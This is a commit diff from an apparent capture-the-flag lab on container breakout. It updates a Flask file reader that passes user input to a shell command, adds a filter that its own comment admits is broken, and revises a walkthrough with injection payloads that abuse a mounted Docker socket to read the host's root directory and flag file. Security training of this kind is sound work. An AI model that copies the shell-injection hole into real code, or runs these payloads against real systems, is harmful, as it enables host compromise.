

feat(containers): update breakout ctf

diff --git a/containers/breakouts/container-breakout-ctf/templates/index.html b/containers/breakouts/container-breakout-ctf/templates/index.html
@@ -47,7 +47,7 @@
                 <div class="card">
                     <div class="card-body">
                         <h3 class="card-title text-center">Welcome to Containify File Reader</h3>
-                        <p class="text-center">Enter the filename to read its contents. Ensure you have the correct permissions.</p>
+                        <p class="text-center">Enter the filename to read its contents, eg 'example.txt'. Ensure you have the correct permissions.</p>
                         <form method="post" action="/read">
                             <div class="form-group">
                                 <label for="filename">Filename</label>

diff --git a/containers/breakouts/container-breakout-ctf/app.py b/containers/breakouts/container-breakout-ctf/app.py
@@ -2,6 +2,9 @@ from flask import Flask, request, render_template
 import subprocess
 
 app = Flask(__name__)
+# Restrict the allowed files
+allowed_files = ['Dockerfile', 'example.txt']
+    
 
 @app.route('/')
 def index():
@@ -10,6 +13,9 @@ def index():
 @app.route('/read', methods=['POST'])
 def read_file():
     filename = request.form['filename']
+    # The following logic needs to be fixed!
+    if 'Dockerfile' not in filename and 'example.txt' not in filename:
+        return render_template('index.html', output="File non-existent or insufficient permissions", filename=filename)
     try:
         # Vulnerable to RCE, NEED TO RESTRICT THIS FUNCTIONALITY ASAP!!
         output = subprocess.check_output(f'cat {filename}', shell=True, stderr=subprocess.STDOUT, text=True)

diff --git a/containers/breakouts/container-breakout-ctf/walkthrough/README.md b/containers/breakouts/container-breakout-ctf/walkthrough/README.md
@@ -19,21 +19,21 @@ Check if docker is available inside the container:
 It is!  
 So you know that the docker sock is mounted inside the container and you have the docker cli, let's try to start a new container:  
 ```sh
-filename: ; docker run -v /:/mnt --rm -it busybox chroot /mnt sh
+example.txt ; docker run -v /:/mnt --rm -it busybox chroot /mnt sh
 ```  
 Unfortunately you cannot open a shell:  
 ![tty](./images/tty.png)  
 
 You need to do a bit of manual enumeration:  
 ```sh
-filename: ; docker run -v /:/mnt --rm busybox ls -lah /mnt/root/
+example.txt ; docker run -v /:/mnt --rm busybox ls -lah /mnt/root/
 ```  
 ![file](./images/found_flag_file.png)  
 
 
 At this point you can read that file content:  
 ```sh
-filename: ; docker run -v /:/mnt --rm busybox cat /mnt/root/flag.txt
+example.txt ; docker run -v /:/mnt --rm busybox cat /mnt/root/flag.txt
 ```  
 
 ![flag](./images/flag.png)  
